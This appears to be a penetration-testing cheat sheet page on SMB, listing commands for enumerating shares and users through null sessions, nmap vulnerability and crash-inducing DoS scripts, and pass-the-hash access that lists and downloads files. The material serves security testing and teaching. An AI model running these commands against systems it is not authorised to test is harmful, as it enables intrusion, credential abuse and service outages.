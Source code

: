 ```yaml
---
layout: default
title: SMB
parent: Network Services
---
```


# SMB
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Exposed Shares
```shell
smbmap -H <ip>
smbmap -H <ip> -u <username>  # adding anything as the <username> will sometimes return results
enum4linux -v <ip>            # wrapper around tools such as rpcclient that gives lots of info
rpcclient -U <username> <ip>  # "" <username> for null sessions, empty password when prompted
```
- Commands while connected via `rpcclient`:
    - `srvinfo` gives server details
    - `enumdomuser` gives configured users
    - `getdompwinfo` gives domain password policy

---

## Nmap CVE Scans
Safe vulnerability scan
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 <ip>
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-regsvc-dos <ip>
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-cve2009-3103 <ip>
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms10-054 <ip>
```

---

## Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L <ip>
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H <ip>
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //<ip>/<directory>
```

---

## Regular usage
```shell
mount -t cifs -o username=<username> //<ip>/ /mnt/smb/  # Mount
smbclient -L //<ip>/ -U <username>%<password>           # List shares
smbclient //<ip>/<directory> -U <username>%<password>   # Interactively browse directory
```

---

## Local Checks
What is exposed?
```powershell
net share          # List shares
net share <share>  # Info about share
```